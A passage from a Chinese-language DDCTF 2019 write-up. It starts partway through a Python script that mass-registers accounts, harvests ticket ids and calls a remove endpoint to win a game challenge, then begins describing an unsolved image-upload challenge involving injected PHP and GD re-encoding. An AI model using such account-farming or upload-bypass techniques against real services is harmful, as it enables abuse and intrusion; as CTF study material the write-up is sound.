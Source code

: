 ```python
        print(s.get(url, headers=headers).text)
        with open('C:/Users/97125/Desktop/1.txt', 'a') as f:
            f.write(id + ',' + ticket_id +'\n')
    except IndexError as e:
        print('error' + name)
    except json.decoder.JSONDecodeError as e:
        print('error' + name)

def cosumer_ticket():
    # 登录
    s = requests.Session()
    name = 'h'
    url = base_url + login_url
    url = url.format(name, password)
    print(url)
    res1 = s.get(url)

    # tick_list = q.get()
    with open('C:/Users/97125/Desktop/1.txt', 'r') as f:
        for i in f.readlines():
            res = i.split(',')
            url = base_url + remove_url
            url = url.format(res[0], res[1])
            print(url)
            print(s.get(url).text)

def main():
    for i in range(300,500):
        fuck_ticket(i)
    cosumer_ticket()

if __name__ == '__main__':
    main()

```

最后跑满100个不重复的id就可以吃鸡了

## uploadimg（未做出）

​    这题当时是无从下手，也没想到要把上传上去的图片下下来看。看了大家的writeup和解析之后，自己动手慢慢fuzz了两天晚上，终于知道是什么意思了。

​	一开始就是一个简单的上传图片的界面，上传之后提示

![](https://wulasite.top/mdimage/ddctf2019/upload1.jpg)

在尝试通过burp增加phpinfo()之后无果。(假装我当时做出来了）正常思路应该是把上传的图片下下来，然后查看hex，对比发现不一样了，然后文件头有gd-jpeg字样。

查看hex

![](https://wulasite.top/mdimage/ddctf2019/upload2.jpg)
